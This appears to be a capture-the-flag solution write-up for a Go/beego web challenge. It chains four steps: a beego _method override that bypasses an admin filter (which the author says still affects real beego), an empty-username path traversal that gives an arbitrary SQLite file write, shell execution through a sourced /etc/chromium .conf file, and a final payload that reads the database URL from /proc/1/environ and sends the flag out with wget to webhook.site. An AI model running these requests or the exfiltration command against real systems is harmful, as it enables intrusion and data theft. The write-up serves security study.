

# duck-duck-go solution

This challenge chains together several steps to achieve RCE via an arbitrary file write of an SQLite database file.

---

## Part 1: I am the admin now

Registering to the site, you will see that a new user does not have a subscription plan to access the scan endpoints. Subscription plans are assigned manually by the admin `fatduck` user (a hardcoded username), using the `/admin/users/subscriber` endpoint.

The following code snippets show the admin router and the `AdminMiddleware` validation check.

```go
func registerAdminRoutes() {
	web.InsertFilter("/admin/*", web.BeforeRouter, middleware.AdminMiddleware) <1>

	web.Router("/admin/users", &controllers.UserController{}, "get:List")
	web.Router("/admin/users/delete", &controllers.UserController{}, "delete:Delete")
	web.Router("/admin/users/subscriber", &controllers.UserController{}, "post:AddSubscriptionPlan")
}
```
<1> The `AdminMiddleware` middleware is inserted as a filter for all `/admin` paths that *should* validate only the admin user can access these endpoints.

```go
func AdminMiddleware(ctx *context.Context) {
	AuthMiddleware(ctx)
	username, ok := ctx.Input.Session(constants.SessionKey).(string)
	if !ok {
		ctx.Redirect(302, "/login")
		return
	}

	// only allowing fatduck as admin
	if username != constants.AdminUsername { <1>
		msg := url.QueryEscape("Oi, admins only are allowed on that page!")
		ctx.Redirect(302, "/user/me?error="+msg)
	}
}
```
<1> Validates that the username is `fatduck`.

There is an authentication bypass vulnerability in `beego`. This vulnerability was reported over 1.5 years ago and was ignored by the developers despite several follow ups, which resulted in the publication of https://github.com/elttam/publications/blob/master/writeups/beego/beego-router-filter-bypass.md. The latest version of `beego` is still vulnerable to it.

The code snippet from `beego` shows that the parsing of the `_method` parameter is performed **after** the `BeforeRouter` filter.

[*`beego/server/web/router.go`*](https://github.com/beego/beego/blob/a21efb561349426790388c030e4732f41db63f2f/server/web/router.go#L1158-L1175)
```go
func (p *ControllerRegister) serveHttp(ctx *beecontext.Context) {
	...	// filter for static file
	if len(p.filters[BeforeStatic]) > 0 && p.execFilter(ctx, urlPath, BeforeStatic) { <1>
		goto Admin
	}
	...
	if len(p.filters[BeforeRouter]) > 0 && p.execFilter(ctx, urlPath, BeforeRouter) { <1>
		goto Admin
	}
	...
	// execute middleware filters
	if len(p.filters[BeforeExec]) > 0 && p.execFilter(ctx, urlPath, BeforeExec) { <1>
		goto Admin
	}

	// check policies
	if p.execPolicy(ctx, urlPath) {
		goto Admin
	}

	if routerInfo != nil {
		if routerInfo.routerType == routerTypeRESTFul {
			if _, ok := routerInfo.methods[r.Method]; ok {
				isRunnable = true
				routerInfo.runFunction(ctx)
			} else {
				exception("405", ctx)
				goto Admin
			}
		} else if routerInfo.routerType == routerTypeHandler {
			isRunnable = true
			routerInfo.handler.ServeHTTP(ctx.ResponseWriter, ctx.Request)
		} else { <2>
			runRouter = routerInfo.controllerType
			methodParams = routerInfo.methodParams
			method := r.Method
			if r.Method == http.MethodPost && ctx.Input.Query("_method") == http.MethodPut { <3>
				method = http.MethodPut
			}
			if r.Method == http.MethodPost && ctx.Input.Query("_method") == http.MethodDelete { <3>
				method = http.MethodDelete
			}
			if m, ok := routerInfo.methods[method]; ok {
				runMethod = m
			} else if m, ok = routerInfo.methods["*"]; ok {
				runMethod = m
			} else {
				runMethod = method
			}
		}
	}

	// also defined runRouter & runMethod from filter
	if !isRunnable {
		...
		if !ctx.ResponseWriter.Started {
			// exec main logic
			switch runMethod {
			case http.MethodGet:
				execController.Get()
			case http.MethodPost:
				execController.Post()
			case http.MethodDelete:
				execController.Delete()
			case http.MethodPut:
				execController.Put()
			case http.MethodHead:
				execController.Head()
			case http.MethodPatch:
				execController.Patch()
			case http.MethodOptions:
				execController.Options()
			case http.MethodTrace:
				execController.Trace()
			default:
				if !execController.HandlerFunc(runMethod) { <4>
					vc := reflect.ValueOf(execController)
					method := vc.MethodByName(runMethod)
					in := param.ConvertParams(methodParams, method.Type(), ctx)
					out := method.Call(in)

					// For backward compatibility we only handle response if we had incoming methodParams
					if methodParams != nil {
						p.handleParamResponse(ctx, execController, out)
					}
				}
			}

			// render template
			if !ctx.ResponseWriter.Started && ctx.Output.Status == 0 {
				if p.cfg.WebConfig.AutoRender {
					if err := execController.Render(); err != nil {
						logs.Error(err)
					}
				}
			}
		}

		// finish all runRouter. release resource
		execController.Finish()
    }
```
<1> The `BeforeStatic`, `BeforeRouter`, and `BeforeExec` filters are processed before the `_method` override is applied.

<2> For all other router types that are not `routerTypeRESTFul` or `routerTypeHandler`.

<3> If the incoming request is `POST` and the `_method` parameter is either `PUT` or `DELETE` then it overrides the request method.

<4> By overriding the `runMethod` with either `PUT` or `DELETE`, it is possible to execute a controller method that is protected by an authorisation filter.

We can bypass the `AdminMiddleware` `BeforeRouter` middleware by sending a `POST` request to a route that our low-privileged user can already access, as long as that route shares the same `UserController`, and then use the `_method` override to invoke the `Delete` method to delete the `fatduck` admin user. The `POST /user/update-password` route is a suitable candidate, since it only requires an authenticated user and uses the `UserController`.

```go
func registerAuthRoutes() {
	web.InsertFilter("/user/*", web.BeforeRouter, middleware.AuthMiddleware) <1>
	web.InsertFilter("/logout", web.BeforeRouter, middleware.AuthMiddleware)

	web.Router("/user/me", &controllers.UserController{}, "get:Me")
	web.Router("/user/update-password", &controllers.UserController{}, "post:UpdateMyPassword") <2>
	web.Router("/user/delete", &controllers.UserController{}, "delete:DeleteMe")

	web.Router("/logout", &controllers.AuthController{}, "get:Logout")
}
```
<1> Only requires the user to be authenticated, and does not require subscriber access or admin.

<2> Uses the `UserController`, which we can use the `_method` parameter to execute the `Delete` method which should have been only accessible to an admin user.

The following request demonstrates deleting the `fatduck` admin user.

```http
POST /user/update-password?_method=DELETE HTTP/1.1
Host: 192.168.122.1:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://192.168.122.1:8080
Connection: keep-alive
Referer: http://192.168.122.1:8080/user/me
Cookie: session=55403eb540f61096a3718e71eda80a9e
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=fatduck
```

After deleting the `fatduck` admin user, you can now register a fresh account with that same username and sign in as the admin.

---

## Part 2: Arbitrary SQLite File Write

Reading the code, when performing a browser scan an SQLite DB file is written to the filesystem:

```go
func (b *BrowserScanner) Initialise() (err error) {
	u := launcher.New().
		Bin(constants.ChromiumPath).
		Headless(true).
		Set("--incognito").
		MustLaunch()
	b.Browser = rod.New().ControlURL(u).MustConnect()
	b.CurrentRecursion = 0

	st, err := url.Parse(b.Scan.TargetUrl)
	if err != nil || (st.Scheme != "http" && st.Scheme != "https") {
		return errors.New("Invalid target url")
	}

	folder := filepath.Join(constants.ScansFolder, b.Scan.Username) <1>

	if _, err := os.Stat(folder); err != nil {
		os.Mkdir(folder, 0755)
	}

	b.Scan.OutputDatabase = filepath.Join(folder, st.Host+b.Settings.DatabaseSuffix) <2>

	return b.setupDatabase()
}
```
<1> Sets the output folder to `/user-scans/{username}/`

<2> Writes the SQLite file to `/user-scans/{username}/{scan_target_hostname}{scan_settings_file_suffix}`.

However, reading the validation checks for `username` and `DatabaseSuffix`, there are some checks in place to prevent a trivial directory traversal with `../` characters.

```go
func Register(username string, password string, confirm string) (errs []string) {
	if password != confirm {
		errs = append(errs, "Passwords do not match.")
	}

	match, err := regexp.MatchString("^[a-zA-Z0-9_-]*$", username) <1>
	if !match || err != nil {
		errs = append(errs, "Invalid username, must match ^[a-zA-Z0-9_-]*$")
	}

	if UserExists(username) {
		errs = append(errs, "User exists")
	}

	if len(errs) > 0 {
		return errs
	}

	u := models.User{Username: username, Password: password}
	o := orm.NewOrm()
	_, err = o.Insert(&u)
	if err != nil {
		return []string{"Error registering user"}
	}
	return []string{}
}
```
<1> Only allows alphanumeric and `_-` characters, using the **`*`** pattern.


```go
func UpdateScanSettings(username string, dbsfx string, tblpfx string, badwords []string) (err error) {
	if strings.Contains(dbsfx, "..") { <1>
		return errors.New("Database suffix must not contain '..'.")
	}

	if !ValidTableName(tblpfx) {
		return errors.New("Invalid tablename prefix, must match ^[a-zA-Z0-9_]+$")
	}

	s, err := GetScanSettings(username)
	if err != nil {
		return err
	}

	s.DatabaseSuffix = dbsfx
	s.TablePrefix = tblpfx
	s.SetBadWords(badwords)

	o := orm.NewOrm()
	_, err = o.Update(s)
	return err
}
```
<1> The suffix for the SQLite file cannot contain `..` characters.

The trick is that the `^[a-zA-Z0-9_-]*$` regex check for the username accepts an *empty* username, because the `*` quantifier matches zero or more characters. An empty username is useful because it strips a directory level off the output path: the scan folder becomes `/user-scans/` instead of `/user-scans/{username}/`, which means a single `..` can climb all the way out to the filesystem root.

```http
POST /register HTTP/1.1
Host: 192.168.122.1:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://192.168.122.1:8080
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.122.1:8080/register
Cookie: session=52ffa3ba9d86ff092b23ec91369c2459
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=&password=test1234&confirm_password=test1234
```

Once we have registered the user with the empty username, we can use the `fatduck` admin account to grant that user subscriber access so it can perform a scan.

Now we abuse the fact that the `..` check only runs against the suffix on its own, not the final path. Scanning a URL of `http://.` sets the `Host` value to `.`, and the SQLite file suffix can be set to `./tmp/filewrite`. Neither value contains `..` by itself, but once the controller concatenates them (`st.Host + b.Settings.DatabaseSuffix`) they become `.` + `./tmp/filewrite` = `../tmp/filewrite`. Joined against the empty-username scan folder, the file is written to `/user-scans//../tmp/filewrite`, i.e. `/tmp/filewrite`.

```
9ad91fc18387:/tmp# ls -al
total 24
drwxrwxrwt    6 root     root           140 Oct  9 13:46 .
drwxr-xr-x    1 root     root          4096 Oct  9 13:43 ..
drwx------    3 root     root            60 Oct  9 13:46 .config
drwx------    3 root     root            60 Oct  9 13:46 .local
-rw-r--r--    1 root     root         20480 Oct  9 13:46 filewrite <1>
drwx------    2 root     root            80 Oct  9 13:46 org.chromium.Chromium.dBfmiN
drwx------    3 root     root            60 Oct  9 13:46 rod
```
<1> Confirmation of the arbitrary file write as an SQLite database file.

---

## Part 3: RCE via SQLite File Write and Chromium

The final goal is to achieve RCE, but there are some limitations to the SQLite file write:

1. We do not have arbitrary SQLite execution, since the only viable injection point is the table prefix setting, which only allows alphanumeric characters (as shown below). This prevents the use of SQLite functions such as `writefile` and `load_extension`.

```go
func ValidTableName(tblname string) bool {
	match, err := regexp.MatchString("^[a-zA-Z0-9_]*$", tblname)
	if !match || err != nil {
		return false
	}
	return true
}
```

2. We cannot overwrite existing files that are not already SQLite database files.

3. SQLite databases begin with a `SQLite format 3` magic byte header, which is rejected by most interpreters.

However, reviewing the `/usr/bin/chromium-browser` script that the application calls to launch the Chromium browser, we see that it sources every `*.conf` file in `/etc/chromium/` with `sh`.

`/usr/bin/chromium-browser`
```bash
#!/bin/sh

for f in /etc/chromium/*.conf; do
  [ -f "$f" ] && . "$f" <1>
done
...
```
<1> Sources all `*.conf` files in `/etc/chromium/`.

We could write our SQLite file to the `/etc/chromium` folder with a `.conf` extension to get the file sourced using `sh`, which *should* execute any embedded commands.

Setting the `BadWords` scan setting to include `$(touch /tmp/rceconfirm) #`, as shown in the request below:

```http
POST /scans/settings HTTP/1.1
Host: 192.168.122.1:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: http://192.168.122.1:8080
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.122.1:8080/scans/settings
Cookie: session=ad97db43ef6708d2eab153bf89e82b08
Upgrade-Insecure-Requests: 1
Priority: u=0, i

database_suffix=.%2Fetc%2Fchromium%2Fdemo.conf&table_prefix=&badwords=%24%28touch+%2Ftmp%2Frceconfirm%29+%23
```

However, running this PoC does not trigger the RCE payload. Manually checking with the `source` command, we see there is a syntax error due to a `(` character.

```
/etc/chromium # source demo.conf 
sh: demo.conf: line 1: syntax error: unexpected "("
```

Doing a hexdump of the created SQLite file, we see there are SQL statements containing `()` characters, which break the `sh` syntax.

```hexdump
00000e30: 0000 0000 0000 0000 0000 0062 0406 1737  ...........b...7
00000e40: 1d01 7f69 6e64 6578 6964 785f 6261 6477  ...indexidx_badw
00000e50: 6f72 6473 5f62 6164 5f77 6f72 6462 6164  ords_bad_wordbad
00000e60: 776f 7264 7305 4352 4541 5445 2049 4e44  words.CREATE IND
00000e70: 4558 2069 6478 5f62 6164 776f 7264 735f  EX idx_badwords_
00000e80: 6261 645f 776f 7264 204f 4e20 6261 6477  bad_word ON badw
00000e90: 6f72 6473 2028 6261 645f 776f 7264 2978  ords (bad_word)x
00000ea0: 0307 171d 1d01 8143 7461 626c 6562 6164  .......Ctablebad
00000eb0: 776f 7264 7362 6164 776f 7264 7304 4352  wordsbadwords.CR
00000ec0: 4541 5445 2054 4142 4c45 2062 6164 776f  EATE TABLE badwo
00000ed0: 7264 7320 280a 0909 6964 2049 4e54 4547  rds (...id INTEG
00000ee0: 4552 2050 5249 4d41 5259 204b 4559 2041  ER PRIMARY KEY A
00000ef0: 5554 4f49 4e43 5245 4d45 4e54 2c0a 0909  UTOINCREMENT,...
00000f00: 6261 645f 776f 7264 2054 4558 5420 4e4f  bad_word TEXT NO
00000f10: 5420 4e55 4c4c 0a09 2950 0206 172b 2b01  T NULL..)P...++.
00000f20: 5974 6162 6c65 7371 6c69 7465 5f73 6571  Ytablesqlite_seq
00000f30: 7565 6e63 6573 716c 6974 655f 7365 7175  uencesqlite_sequ
00000f40: 656e 6365 0343 5245 4154 4520 5441 424c  ence.CREATE TABL
00000f50: 4520 7371 6c69 7465 5f73 6571 7565 6e63  E sqlite_sequenc
00000f60: 6528 6e61 6d65 2c73 6571 2981 1201 0717  e(name,seq).....
00000f70: 1b1b 0181 7b74 6162 6c65 7265 7375 6c74  ....{tableresult
00000f80: 7372 6573 756c 7473 0243 5245 4154 4520  sresults.CREATE 
00000f90: 5441 424c 4520 7265 7375 6c74 7320 280a  TABLE results (.
00000fa0: 0909 6964 2049 4e54 4547 4552 2050 5249  ..id INTEGER PRI
00000fb0: 4d41 5259 204b 4559 2041 5554 4f49 4e43  MARY KEY AUTOINC
00000fc0: 5245 4d45 4e54 2c0a 0909 7572 6c20 5445  REMENT,...url TE
00000fd0: 5854 204e 4f54 204e 554c 4c2c 0a09 096d  XT NOT NULL,...m
00000fe0: 6174 6368 6564 5f62 6164 5f77 6f72 6420  atched_bad_word 
00000ff0: 5445 5854 204e 4f54 204e 554c 4c0a 0929  TEXT NOT NULL..)
00001000: 0d00 0000 0010 0000 0000 0000 0000 0000  ................
```

We will need to *comment out this section* somehow so `sh` is happy with it.

[In this article](https://www.elttam.com/blog/cruising-for-shells-in-flowise#rce-via-the-sqlite-record-manager-node) that I contributed to earlier this year, it was noted that we can abuse how SQLite encodes string lengths to smuggle a controlled byte into the file. In the SQLite record format, a TEXT value of length `N` is stored with a serial type of `2*N + 13`. If we make a table name exactly 13 bytes long, its serial type becomes `2*13 + 13 = 39`, and `39` is the ASCII code for a single quote (`'`). So the length header of our own table name is written into the file *as* a `'` character.

By placing that `'` before the problematic `CREATE TABLE ... (...)` section, we open a single-quoted string in `sh`, swallowing all the troublesome `()` syntax until we close it off later in the `badwords` payload.

The following request sets the table prefix so that the created table name ends up exactly 13 bytes long. This injects a `'` character just before the problematic section, and achieves RCE.

```http
POST /scans/settings HTTP/1.1
Host: 192.168.122.1:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Origin: http://192.168.122.1:8080
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.122.1:8080/scans/settings
Cookie: session=ad97db43ef6708d2eab153bf89e82b08
Upgrade-Insecure-Requests: 1
Priority: u=0, i

database_suffix=.%2Fetc%2Fchromium%2Fdemo0.conf&table_prefix=abcde&badwords='%24%28touch+%2Ftmp%2Frceconfirm%29+%23
```

*Confirmation of achieving RCE*
```
/etc/chromium # ls -al /tmp/
total 4
drwxrwxrwt   12 root     root           260 Oct  9 14:33 .
drwxr-xr-x    1 root     root          4096 Oct  9 14:18 ..
drwx------    3 root     root            60 Oct  9 14:20 .config
drwx------    3 root     root            60 Oct  9 14:20 .local
drwx------    2 root     root            80 Oct  9 14:20 org.chromium.Chromium.IFjLlB
drwx------    2 root     root            80 Oct  9 14:33 org.chromium.Chromium.LBCiIM
drwx------    2 root     root            80 Oct  9 14:29 org.chromium.Chromium.NDilkJ
drwx------    2 root     root            40 Oct  9 14:31 org.chromium.Chromium.chromium_chrome_url_fetcher_.hJCIfm
drwx------    2 root     root            80 Oct  9 14:32 org.chromium.Chromium.lLbeCd
drwx------    2 root     root            80 Oct  9 14:30 org.chromium.Chromium.pCobBc
drwx------    2 root     root            80 Oct  9 14:33 org.chromium.Chromium.pOACNk
-rw-r--r--    1 root     root             0 Oct  9 14:33 rceconfirm
drwx------    3 root     root            60 Oct  9 14:20 rod
```

---

## Part 4: Final PoC

The final part is to leverage the RCE to connect to the PostgreSQL server and retrieve the flag from the DB. The following request configures the settings to do this.

*Note: Payload cannot contain `|` characters*
```bash
E=$(grep '^DATABASE_URL=' /proc/1/environ); D=${E#DATABASE_URL=}; F=$(psql "$D" -tAc 'SELECT flag FROM flag LIMIT 1'); wget -q -O- "https://YOUR_HOST/?flag=$F"
```

```http
POST /scans/settings HTTP/1.1
Host: 192.168.122.1:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 309
Origin: http://192.168.122.1:8080
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.122.1:8080/scans/settings
Cookie: session=ad97db43ef6708d2eab153bf89e82b08
Upgrade-Insecure-Requests: 1
Priority: u=0, i

database_suffix=.%2Fetc%2Fchromium%2Fexploit.conf&table_prefix=abcde&badwords='$(E%3d$(grep+'^DATABASE_URL%3d'+/proc/1/environ)%3b+D%3d${E%23DATABASE_URL%3d}%3b+F%3d$(psql+"$D"+-tAc+'SELECT+flag+FROM+flag+LIMIT+1')%3b+wget+-q+-O-+"https%3a//webhook.site/5e6543d2-e092-4257-b793-ac35284ee9fc/%3fflag%3d$F")+%23
```

*NOTE: you may need to execute the `POST /scans` with a target of `http://.` to trigger*

*Confirmation of RCE*
